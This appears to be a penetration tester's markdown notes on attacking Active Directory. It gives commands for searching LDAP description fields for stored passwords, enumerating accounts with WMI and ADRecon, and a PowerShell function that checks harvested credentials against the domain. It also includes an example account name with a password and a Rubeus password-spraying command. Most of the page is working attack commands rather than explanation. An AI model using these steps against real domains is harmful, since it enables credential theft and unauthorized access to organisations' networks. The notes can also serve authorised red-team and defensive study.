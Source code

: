 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Use command line
There are 3-4 fields that seem to be common in most AD schemas: UserPassword, UnixUserPassword, unicodePwd and msSFU30Password

`Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID`

## Enumerate the AD with ADRecon
`.\ADRecon.ps1`

`.\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`.\Rubeus.exe brute /password:Start123!`
